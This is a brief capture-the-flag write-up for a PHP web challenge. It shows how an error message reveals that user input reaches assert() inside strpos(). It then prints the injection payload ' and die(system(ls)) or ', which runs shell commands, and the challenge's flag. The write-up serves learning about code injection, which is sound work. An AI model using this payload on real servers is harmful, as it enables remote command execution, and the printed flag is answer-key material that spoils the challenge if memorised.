

We try to give `'` as paylaod, and get this message:
```
Parse error: syntax error, unexpected T_CONSTANT_ENCAPSED_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1

Catchable fatal error: assert(): Failure evaluating code: 
strpos('includes/'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8
```

So, it means we use `assert` and also `strpos`, the php code is looks like:
```php
assert(strpos('$input', '..') === false)
```
Based on this [how assertions can get you hacked](https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6), I'm giving this payload `' and die(system(ls)) or '`

We should get: 
```php
assert(strpos('' and die(system(ls)) or '', '..') === false)
```
When it'll reach `die(system(ls))`, it'll simply execute this function and print the output.



And now, cat the password.


**Flag:** ***`x4Ss3rT1nglSn0ts4f3A7A1Lx`***
